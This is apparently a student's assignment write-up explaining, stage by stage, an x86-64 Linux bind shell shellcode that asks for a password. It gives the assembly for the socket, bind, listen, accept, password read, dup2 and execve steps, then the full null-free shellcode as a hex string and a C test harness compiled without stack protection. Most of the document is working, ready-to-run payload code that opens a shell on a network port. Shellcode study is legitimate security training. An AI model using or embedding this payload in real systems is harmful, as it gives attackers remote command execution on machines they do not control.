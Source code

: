 # Bindshell with Password

This assignment was split in two parts:
1. Make the BindShell-Shellcode from the class free of nullbytes
2. Create a BindShell-Shellcode which spawns a shell after a certain password has been entered

I first created a nullbyte-free version of the shellcode from the class and then extended it with an authentication mechanism. The shellcode consists of 8 stages:

## Create a socket 

This part of the shellcode basically does:
```
socket(AF_INET, SOCK_STREAM, 0)
```

And is achieved by:
```
    xor rax, rax
    cdq
    push SYS_SOCKET
    pop rax ; RAX contains the socket() syscall
    push AF_INET
    pop rdi ; rdi contains the AF_INET parameter
    push SOCK_STREAM
    pop rsi ; rsi contains the SOCK_STREAM parameter

    SYSCALL
```

The comments should be self-explaining. Note that I made use of the ```push pop``` technique to fill the registers with the right values. The push pop technique avoids null bytes and is shorter then the ```mov``` instruction. 
Also I used cdq to clear out the RDX register which is possible as RAX is 0 at this point.

## Bind the socket
Again the following piece of shellcode is equivalent to this C snippet:
```
bind(sockfd, const struct sockaddr *addr, 16)
```

Assembly:
```
    ; First set up the struct sockaddr_in on the stack
    push rdx        ; sin_zero
    add dx, PORT    ; Place the port in the struct
    shl rdx, 16     ; Shift the port to the right position
    add dx, AF_INET ; add the af_inet flag to the struct
    push rdx        ; Put the struct on the stack
    push rsp
    pop rsi         ; Rsi now points to the struct

    push rax        ; Rax still contains the created socket
    pop rdi         ; The socket is now in Rdi
    push SIZE_STRUCT
    pop rdx         ; Rdx does now contain the size of the struct

    push SYS_BIND
    pop rax         ; Rax equals the syscallnumber for bind

    SYSCALL
```

In order to create the struct I made use of shifting and used the lower bit registers to arrange the struct.

## Listen
C pseudocode:
```
; listen(fd, 1)
```
```
    push rax ; Rax should contain null as bind() is expected to work successfully
    pop RSI
    inc RSI  ; Rsi is now 1
    push SYS_LISTEN
    pop RAX  ; Rax has the syscallnumber for listen

    SYSCALL
```
Nothing surprising here, note that I rely on bind() returning 0 :-)

## Accept:
C pseudocode:
```
    ; accept(sockfd, struct sockaddr *addr, 16)
```
Assembly:
```
    push rsp ; Reuse old struct
    pop rsi  ; Rsi points to struct
    push SIZE_STRUCT
    push RSP 
    pop RDX ; Pointer to the size of the struct in RDX
    push SYS_ACCEPT
    pop RAX

    SYSCALL
```

In this step I reused the old struct on the stack for the accept call. To do so I rely on the fact that the Rsp has the same value as it had during the bind syscall. 

## Authentication
I first read 4 bytes from the new socket an then compare it to a defined constant.

To read the password I did this in C pseudocode:
```
    ; read(fd, *buf, 4)
```

Assembly:
```
    add RSI, 8 ; Make it point to sin_zero of sockaddr. We dont need this anymore
    push RAX ; Rax still contains the accepted socket
    pop RDI ; Rdi contains the new socket
    xor al, al ; Clear out rax
    push 0x4 ; Specify num_bytes to read
    pop RDX

    SYSCALL ; Do the read
```

Note that I store the read password in the sin_zero field of the sockaddr_in struct. I mean ... there are nullbytes already which mark the end of the password. :-)

To compare the entered password with constant I did:
```
    cmp dword[rsi], PASSWORD ; Rsi still points to the sin_zero field which contains the entered pw.
    jne _burn ; Cause a sigsegv upon a wrong password
```

## DUP 2
The next step is to redirect stdin, stdout and stderr to the new socket. Otherwise we would not see any output from the shell as it prints out to stdout, not to the socket.

For this I created a loop which decrements a counter starting from 2-0. It starts from 2 as 2 marks stderr and 0 stdin.

Assembly:
```
_dup2:
   ; dup2(client, STDIN)
   ; dup2(client, STDOUT)
   ; dup2(client, STERR)

    push 3 
    pop rsi

_loop:
    
    dec esi
    push SYS_DUP2
    pop rax
    SYSCALL

    jne _loop
```

## Finally call execve
This is a pretty standard way to call execve('/bin/sh', NULL, NULL)
```

    cdq ; Null out rdx. Rax should still be zero because the last dup2() redirected stdin.
    push rax    
    mov rax, BINSH ; BINSH hexstring in rax
    push rax           
    push rsp ; get a pointer to binsh
    pop rdi           

    xor rax, rax
    mov al, SYS_EXECVE 
    syscall
```

In order to test this shellcode I made use of the following C snippet:
```

#include <string.h>
 
char shellcode[] = "\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x52\x66\x81\xc2\x11\x5c\x48\xc1\xe2\x10\x66\x83\xc2\x02\x52\x54\x5e\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x50\x5e\x48\xff\xc6\x6a\x32\x58\x0f\x05\x54\x5e\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x48\x83\xc6\x08\x50\x5f\x30\xc0\x6a\x04\x5a\x0f\x05\x81\x3e\x41\x41\x41\x41\x75\x22\x6a\x03\x5e\xff\xce\x6a\x21\x58\x0f\x05\x75\xf7\x99\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x54\x5f\x48\x31\xc0\xb0\x3b\x0f\x05";
 
main(void)
{       
        printf("Shellcode length: %d\n", (int)strlen(shellcode));
 
        /* pollute registers and call shellcode */
        __asm__ (        "mov $0xffffffffffffffff, %rax\n\t"
                         "mov %rax, %rbx\n\t"
                         "mov %rax, %rcx\n\t"
                         "mov %rax, %rdx\n\t"
                         "mov %rax, %rsi\n\t"
                         "mov %rax, %rdi\n\t"
                         "mov %rax, %rbp\n\t"
 
                         "call shellcode"       );
}
 
```

Compile:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```



